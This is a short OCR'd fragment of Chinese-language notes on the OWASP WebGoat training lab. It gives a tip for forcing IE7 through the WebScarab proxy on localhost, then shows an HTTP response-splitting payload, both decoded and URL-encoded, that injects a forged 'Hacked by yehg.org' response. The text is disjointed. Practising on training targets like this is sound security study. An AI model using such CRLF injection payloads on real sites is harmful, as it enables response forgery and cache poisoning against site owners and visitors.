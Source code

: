 # OWASP {#owasp}

### WebGoat {#webgoat}

注意：如果您正在使用WebScarab测试的站点与浏览器位于同一个主机之上(即localhost或者127.0.0.1)，并且浏览器为IE7的话，则需要在主机名的后面添加一个点号&quot;.&quot;，从而强迫IE7使用您配置的代理。这可不是WebScarab的一个bug，而是IE 开发人员所做的一个令人遗憾的设计决策。 如果IE觉得您试图访问的服务器位于本地计算机上，它就会忽略所有的代理设置，欺骗它的一个方法是在主机名后面加一个点，例如 [http://localhost./WebGoat/attack](http://localhost./WebGoat/attack) 。这将强迫IE使用我们配置的代理。

en

Content-Length: 0

HTTP/1.1 200 OK

Content-Type: text/html

Content-Length: 31

&lt;html&gt;Hacked by yehg.org&lt;/html&gt;

en%0D%0AContent-Length%3A%200%0D%0A%0D%0AHTTP%2F1.1%20200%20OK%0D%0AContent-Type%3A%20text%2Fhtml%0D%0AContent-Length%3A%2031%0D%0A%3Chtml%3EHacked%20by%20yehg.org%3C%2Fhtml%3E